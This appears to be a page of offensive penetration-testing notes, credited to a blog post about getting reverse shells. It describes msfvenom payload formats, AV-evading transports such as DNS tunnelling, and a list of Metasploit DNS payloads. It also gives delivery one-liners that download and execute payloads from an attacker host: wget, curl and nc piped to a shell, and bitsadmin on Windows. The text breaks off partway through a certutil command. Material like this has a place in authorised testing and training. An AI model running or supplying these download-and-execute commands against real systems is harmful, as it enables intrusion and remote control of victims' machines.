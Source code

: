 Taken from: https://www.devilsec.io/2019/03/23/pop-all-the-shells/

### Payload Preparation



#### msfvenom --help-formats 

- raw - raw shell source-code based on the payload you choose. ie: php/reverse_php will give you raw php source code. perl/reverse_tcp will give you a raw perl reverse shell script, and so on. Useful for arbitrary PHP upload vulnerabilities, and also for executing a shell via a local script interpreter.
- dll - Windows execution is reflective DLL injection. Windows DLLs are flexible and can be easily injected directly into memory for reliable shell execution, and it automatically is executed in the background as a separate process, which all but guarantees a stable shell.
- elf/exe - Executable binaries for Linux/Windows respectively are very useful and are reliable even in the absence of scripting languages or special privileges. Ordinarily this would run the risk of setting off AV, but we’re not worried about that here.
- java/perl/python/ruby/etc - Normally reserved for exploit development, these language-specific payloads are also applicable, particularly in certain web applications where native code execution can occur. Every now and again, you may find some magical interpreter built into the application. These methods give you the raw bytecode, so to execute it will require the native execution method for that specific language to call the bytecode directly.
- psh-cmd - Create a powershell one-liner with this handy format.
- war - The unassuming “war” file is a java-based executable that commonly accompanies web applications and automation services like those you find on Jenkins and JBoss instances.

#### Shell Transports

    Transport methods are how the session will be set up once the shell executes. 
    The most common one is raw TCP, which can often be the most reliable, 
    but is also the lease resilient against AV and especially network monitors and intrusion prevention systems. 
    For those reasons, you’ll usually need to make use of encapsulation – encryption.

    HTTPS is the most popular for several reasons. 
    HTTP is the most common and most essential type of web-based traffic. 
    It’s unlikely to be blacklisted by firewalls, and even if it is filtered, there are usually ways around it. 
    It’s also extensible, easy to proxy, and encryption is expected. 
    The only problem you may run into is where next-gen firewalls support deep packet inspection (DPI) which effectively amounts to SSL-Stripping.

    DNS transports are less common because they are slow but pretty sneaky when done right. 
    DNS traffic being an essential protocol for normal network operations, DNS is almost never blocked beyond the boundaries of a network. 
    This form of transport works by using this idea to transport communications via DNS request-reply communication over UDP to the attacker’s server, acting as an ordinary DNS server.
    The only reasonable defense for this is if unapproved DNS servers are blocked by network policies. 
    As you can imagine, this is rarely found in production. 
    The main disadvantage is how slow it is, and that it is an unencrypted protocol; however, with the advent of DNS over SSL, this may change in the future. 
    DNSCat is currently the most popular standalone tool for this kind of delivery method, but even metasploit has a few of these available

#### msf5 > search type:payload dns
```
Matching Modules
================

   Name                                                    Disclosure Date  Rank    Check  Description
   ----                                                    ---------------  ----    -----  -----------
   payload/windows/dllinject/reverse_tcp_dns                                normal  No     Reflective DLL Injection, Reverse TCP Stager (DNS)
   payload/windows/dllinject/reverse_tcp_rc4_dns                            normal  No     Reflective DLL Injection, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/dns_txt_query_exec                                       normal  No     DNS TXT Record Payload Download and Execution
   payload/windows/meterpreter/reverse_tcp_dns                              normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/meterpreter/reverse_tcp_rc4_dns                          normal  No     Windows Meterpreter (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupdllinject/reverse_tcp_dns                         normal  No     Windows Inject DLL, Reverse TCP Stager (DNS)
   payload/windows/patchupdllinject/reverse_tcp_rc4_dns                     normal  No     Windows Inject DLL, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/patchupmeterpreter/reverse_tcp_dns                       normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (DNS)
   payload/windows/patchupmeterpreter/reverse_tcp_rc4_dns                   normal  No     Windows Meterpreter (skape/jt Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/shell/reverse_tcp_dns                                    normal  No     Windows Command Shell, Reverse TCP Stager (DNS)
   payload/windows/shell/reverse_tcp_rc4_dns                                normal  No     Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/upexec/reverse_tcp_dns                                   normal  No     Windows Upload/Execute, Reverse TCP Stager (DNS)
   payload/windows/upexec/reverse_tcp_rc4_dns                               normal  No     Windows Upload/Execute, Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
   payload/windows/vncinject/reverse_tcp_dns                                normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (DNS)
   payload/windows/vncinject/reverse_tcp_rc4_dns                            normal  No     VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption DNS, Metasm)
```
#### Payload Delivery

Depending on the host and the vulnerability you’re exploiting, figuring out how to get a shell to the target can be the trickest part, especially if you’re limited on payload length or execution methods. Here are the most reliable ways I’ve been able to quickly deliver my shellcode for a stable shell.
Web Delivery

Simple web delivery is the most straight-forward method, and you can open up your own HTTP server without having to configure Apache/Nginx, or anything like that. All you need is cd to the directory you want to share with your targets (I usually create a /tmp/payloads folder) and serve it with this simple python one-liner.
```
cd /tmp/payloads
python2 -m SimpleHTTPServer <port>           // default port: 8888
```
Now that you’ve got your web server running, you need to get your target to download it. With Linux, you have several options:
```
# wget download & pipe to shell
wget -O - http://attacker-ip:8888/payload.sh | sh

# Netcat pipe to file & execute in background
nc attacker-ip:8888/payload.sh > /tmp/payload && /tmp/payload &

# Curl silent download & execute
curl -sL http://attacker-ip:8888/payload.sh | sh
```
Windows is a little less straight-forward, but there are still ample possibilities:
```
# Windows bitsadmin download & execute
cmd.exe /c "bitsadmin /transfer eviljob /download /priority high http://attacker-ip:8888/payload.exe c:\payload.exe & start c:\payload.exe"

# Windows Certutil.exe download a base64-encoded binary
certutil.exe -urlsplit -f
```

